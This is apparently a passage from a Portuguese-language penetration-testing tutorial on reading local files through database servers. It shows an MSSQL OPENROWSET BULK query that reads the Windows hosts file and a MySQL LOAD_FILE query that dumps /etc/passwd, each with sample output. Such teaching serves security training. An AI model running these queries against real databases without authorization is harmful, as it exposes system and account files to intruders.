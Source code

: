 # Leia arquivos locais

Por padrão, `MSSQL` permite a leitura de arquivos em qualquer arquivo no sistema operacional ao qual a conta tenha acesso de leitura. Podemos usar a seguinte consulta SQL:

## Leia arquivos locais em MSSQL

```shell
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO

BulkColumn

-----------------------------------------------------------------------------
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to hostnames. Each
# entry should be kept on an individual line. The IP address should

(1 rows affected)
```

Como mencionamos anteriormente, por padrão uma instalação `MySQL` não permite a leitura arbitrária de arquivos, mas se as configurações corretas estiverem em vigor e com os privilégios apropriados, podemos ler arquivos usando os seguintes métodos:

## MySQL - Leia arquivos locais no MySQL

```shell
mysql> select LOAD_FILE("/etc/passwd");

+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

<SNIP>
```

